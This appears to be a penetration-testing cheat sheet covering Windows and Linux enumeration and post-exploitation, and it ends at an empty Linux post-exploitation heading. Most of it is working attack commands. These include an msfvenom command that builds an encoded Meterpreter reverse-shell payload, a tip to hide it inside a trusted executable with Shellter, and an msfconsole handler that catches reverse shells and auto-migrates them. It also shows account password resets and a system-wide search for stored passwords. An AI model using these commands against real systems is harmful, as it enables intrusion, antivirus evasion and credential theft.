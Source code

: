 ```dirsearch -u <url>```
    icacls "path"
    
*check for local admin*

    net localgroup administrators

*check user permissions*

    whoami /priv

*Generate Payload*

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<url> LPORT=<port> -e x86/shikata_ga_nai -i 7 -f raw > shell.bin
    -i - means the iterations shikata ga nai will execute on the payload

Inject the payload in a trustworthy exe like whoami.exe with the help of shellter

*Msfconsole meterpreter*

    msfconsole -q -x "use exploit/multi/handler;\
    set PAYLOAD windows/meterpreter/reverse_tcp;\
    set AutoRunScript post/windows/manage/migrate;\
    set LHOST <ip>;\
    set LPORT <port>;\
    run"

This will start a session handler and wait for incomming reverse shell requests. Then directly automigrate the process to a new process. 

*Set password for windows account*

    net user <accountname> <password>

**Linux Enumeration**

*ARP*

Show ARP Communication

    old: 
        arp -a
    new:
        ip neigh

Search for Passwords in  the whole system

    grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null
    locate password | more

*Search for Subdomains*

Get the list from here
https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-5000.txt 

    wfuzz -c -f sub-fighter -w top5000.txt -u '<url>' -H "HOST: FUZZ.<url>" --hw 290

    --hw 290 to take out 404 pages

**Post Exploitation**

*Linux Post Exploitation*
```